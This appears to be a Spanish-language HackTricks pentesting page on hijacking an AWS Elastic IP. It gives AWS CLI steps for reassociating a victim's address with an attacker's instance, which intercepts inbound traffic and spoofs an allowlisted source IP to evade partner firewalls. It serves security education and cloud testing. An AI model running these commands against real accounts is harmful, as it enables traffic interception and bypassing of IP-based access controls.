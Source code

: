 # AWS - Elastic IP Hijack for Ingress/Egress IP Impersonation

{{#include ../../../../banners/hacktricks-training.md}}

## Resumen

Abusar de `ec2:AssociateAddress` (y opcionalmente `ec2:DisassociateAddress`) para reasociar un Elastic IP (EIP) de una instancia/ENI de la víctima a una instancia/ENI del atacante. Esto redirige el tráfico entrante destinado al EIP hacia el atacante y también permite al atacante originar tráfico saliente con la IP pública allowlisted para eludir los firewalls externos de partners.

## Requisitos previos
- ID de asignación del EIP de destino en la misma cuenta/VPC.
- Instancia/ENI del atacante que controlas.
- Permisos:
- `ec2:DescribeAddresses`
- `ec2:AssociateAddress` en el EIP allocation-id y en la instancia/ENI del atacante
- `ec2:DisassociateAddress` (opcional). Nota: `--allow-reassociation` desasociará automáticamente de la asociación previa.

## Ataque

Variables
```bash
REGION=us-east-1
ATTACKER_INSTANCE=<i-attacker>
VICTIM_INSTANCE=<i-victim>
```
1) Asignar o identificar el EIP de la victim (el lab asigna uno nuevo y lo adjunta a victim)
```bash
ALLOC_ID=$(aws ec2 allocate-address --domain vpc --region $REGION --query AllocationId --output text)
aws ec2 associate-address --allocation-id $ALLOC_ID --instance-id $VICTIM_INSTANCE --region $REGION
EIP=$(aws ec2 describe-addresses --allocation-ids $ALLOC_ID --region $REGION --query Addresses[0].PublicIp --output text)
```
2) Verificar que la EIP actualmente resuelve al servicio de la víctima (por ejemplo, comprobando un banner)
```bash
curl -sS http://$EIP | grep -i victim
```
3) Reasociar el EIP al attacker (se desasocia automáticamente del victim)
```bash
aws ec2 associate-address --allocation-id $ALLOC_ID --instance-id $ATTACKER_INSTANCE --allow-reassociation --region $REGION
```
4) Verificar que el EIP ahora resuelve al attacker service
```bash
sleep 5; curl -sS http://$EIP | grep -i attacker
```
Evidencia (asociación movida):
```bash
aws ec2 describe-addresses --allocation-ids $ALLOC_ID --region $REGION \
--query Addresses[0].AssociationId --output text
```
## Impacto
- Inbound impersonation: Todo el tráfico hacia el EIP secuestrado se entrega a la instancia/ENI del atacante.
- Outbound impersonation: El atacante puede iniciar tráfico que parece originarse desde la allowlisted public IP (útil para eludir filtros de IP de socios/fuentes externas).

{{#include ../../../../banners/hacktricks-training.md}}
